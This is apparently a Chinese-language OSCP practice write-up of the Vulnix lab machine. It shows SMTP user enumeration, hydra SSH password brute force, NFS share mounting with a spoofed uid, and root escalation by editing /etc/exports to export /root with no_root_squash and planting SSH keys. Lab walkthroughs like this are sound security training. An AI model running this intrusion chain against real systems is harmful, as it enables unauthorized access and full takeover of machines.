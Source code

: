 # 一、信息收集

1. 主机发现，如下，kali的IP为172.16.29.130，那么131应该就是靶机IP了
   
   ```shell
   sudo arp-scan -l
   ```
   
   ![1.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/1.png)

2. 端口扫描，开放的端口挺多的
   
   ![2.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/2.png)

3. 发现有smtp服务，nmap没有扫出漏洞。

# 二、getshell

1. 使用smtp-user-enum枚举用户名
   
   ```shell
   smtp-user-enum -M VRFY -U /usr/share/dirb/wordlists/others/names.txt -t 172.16.29.131
   ```
   
   ![3.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/3.png)

2. 如上，获取到用户名Bin、Irc、Mail、Man、Sys，使用hydra爆破一下ssh
   
   ```shell
   hydra -l user -P /usr/share/wordlists/rockyou.txt 172.16.29.131 ssh -t 4
   ```
   
   ![4.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/4.png)

3. 如上，成功爆破出ssh口令user/letmein，ssh连接，成功获取到shell
   
   ![5.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/5.png)

# 三、权限提升

1. 查看内核版本信息
   
   ```shell
   lsb_release -a
   uname -a
   ```
   
   ![6.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/6.png)

2. 如上，该版本存在脏牛提权漏洞，但是系统没有安装gcc，很遗憾没法利用，没办法，只能再找找其他漏洞，前面端口扫描发现有rpc服务，且2049端口存在nfs网络文件系统，尝试输出并远程挂载
   
   ```shell
   showmount -e 172.16.29.131
   mount 172.16.29.131:/home/vulnix /tmp/mount
   ```
   
   ![7.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/7.png)
   
   ![8.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/8.png)

3. 提示权限不够，到之前获取到的shell中看一下/etc/passwd，发现vulnix用户的uid为2008
   
   ![9.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/9.png)

4. 在kali上创建一个相同uid的vulnix用户再次尝试访问挂载
   
   ```shell
   useradd -u 2008 vulnix
   ```
   
   ![10.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/10.png)
   
   ![11.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/11.png)

5. 成功访问挂载，使用vulnix用户生成一个ssh密钥，并将公钥文件复制到/tmp/vulnix/.ssh/authorized_keys和/home/vulnix/.ssh/authorized_keys中，然后使用密钥ssh连接靶机
   
   ```shell
   ssh-keygen -t id_rsa
   ssh -o 'PubkeyAcceptedKeyTypes +ssh-rsa' -i id_rsa vulnix@172.16.29.131
   ```
   
   ![12.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/12.png)

6. 如上图，成功获取到vulnix用户shell，现在我们拥有了sudoers权限，查看有什么可利用的提权程序
   
   ```shell
   sudo -l
   ```
   
   ![13.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/13.png)

7. 发现/etc/exports具备root权限，且vulnix用户可以无需密码编辑该文件，查看/etc/exports
   
   ![14.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/14.png)

8. 修改改文件，开放root目录，将下面的内容添加到/etc/exports末尾
   
   ```shell
   /root    *(rw,no_root_squash)
   ```

9. 重启靶机，再次查看靶机网络文件共享，如下，成功开放了root目录
   
   ```shell
   showmount -e 172.16.29.131
   ```
   
   ![15.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/15.png)

10. 挂载root目录
    
    ```shell
    mount -t nfs 172.16.29.131:/root /tmp/r
    ```

11. 以root身份生成新的密钥，并将公钥文件复制到/tmp/r/.ssh/authorized_keys文件中
    
    ![16.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/16.png)

12. 通过密钥文件连接靶机，成功获取到root权限
    
    ```shell
    ssh -o 'PubkeyAcceptedKeyTypes +ssh-rsa' -i id_rsa root@172.16.29.131
    ```
    
    ![17.png](/Users/mac/notebook/NoteBook/OSCP/img/hacklab-vulnix/17.png)